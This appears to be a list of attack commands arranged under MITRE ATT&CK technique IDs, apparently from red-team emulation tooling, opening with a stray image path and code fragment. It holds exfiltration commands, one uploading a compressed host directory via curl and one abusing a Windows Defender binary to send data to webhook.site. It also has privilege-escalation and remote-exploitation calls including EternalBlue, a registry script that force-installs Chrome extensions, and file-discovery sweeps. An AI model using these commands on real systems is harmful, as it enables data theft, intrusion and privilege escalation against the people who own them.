 $result = $client.PostAsync($url, $content).Result;
$result.EnsureSuccessStatusCode();
* curl -F "data=@#{host.dir.compress}" --header "X-Request-ID: `hostname`-#{paw}" $RANDOMURL$/file/upload
##T1011: Exfiltration Over Other Network Medium
##T1052: Exfiltration Over Physical Medium
##T1567: Exfiltration Over Web Service
* $path = resolve-path "c:\ProgramData\Microsoft\Windows Defender\Platform\*\ConfigSecurityPolicy.exe"
& $path[0] c:\temp\config.xml "https://webhook.site?d=sensitive-data-here"
##T1190: Exploit Public-Facing Application
* powercmd.exe /c/lateral_movement/jenkins_script_console
* python/exploit/web/jboss_jmx
##T1203: Exploitation for Client Execution
##T1212: Exploitation for Credential Access
##T1211: Exploitation for Defense Evasion
##T1068: Exploitation for Privilege Escalation
* getsystem
* bitsadmin.exe
* msbuild.exe *MSBuildShell.csproj
* powercmd.exe /c/privesc/ms16-032
* powercmd.exe /c/privesc/tater
* powercmd.exe /c/privesc/ms16-135
##T1210: Exploitation of Remote Services
* powercmd.exe /c/exploitation/exploit_jboss
* powercmd.exe /c/exploitation/exploit_jenkins
* powercmd.exe /c/exploitation/exploit_eternalblue
##T1133: External Remote Services
* $extList = "fcfhplploccackoneaefokcmbjfbkenj", "fdcgdnkidjaadafnichfpabhfomcebme"

foreach ($extension in $extList) {
  New-Item -Path HKLM:\Software\Wow6432Node\Google\Chrome\Extensions\$extension -Force
  New-ItemProperty -Path "HKLM:\Software\Wow6432Node\Google\Chrome\Extensions\$extension" -Name "update_url" -Value "https://clients2.google.com/service/update2/crx" -PropertyType "String" -Force}
Start chrome
Start-Sleep -Seconds 30
Stop-Process -Name "chrome"
* $extList = #{extension_id}
foreach ($extension in $extList) {
  New-Item -Path HKLM:\Software\Wow6432Node\Google\Chrome\Extensions\$extension -Force
  New-ItemProperty -Path "HKLM:\Software\Wow6432Node\Google\Chrome\Extensions\$extension" -Name "update_url" -Value "https://clients2.google.com/service/update2/crx" -PropertyType "String" -Force}
Start chrome
Start-Sleep -Seconds 30
Stop-Process -Name "chrome"
##T1008: Fallback Channels
* powercmd.exe /c/management/switch_listener
* external/generate_agent
##T1083: File and Directory Discovery
* cd $HOME && find . -print | sed -e 's;[^/]*/;|__;g;s;__|; |;g' > /tmp/T1083.txt
if [ -f /etc/mtab ]; then cat /etc/mtab >> /tmp/T1083.txt; fi;
find . -type f -iname *.pdf >> /tmp/T1083.txt
cat /tmp/T1083.txt
find . -type f -name ".*"
* ls -recurse
get-childitem -recurse
gci -recurse
* ls -a >> /tmp/T1083.txt
if [ -d /Library/Preferences/ ]; then ls -la /Library/Preferences/ > /tmp/T1083.txt; fi;
file */* *>> /tmp/T1083.txt
cat /tmp/T1083.txt 2>/dev/null
find . -type f
ls -R | grep ":$" | sed -e 's/:$//' -e 's/[^-][^\/]*\//--/g' -e 's/^/ /' -e 's/-/|/'
locate *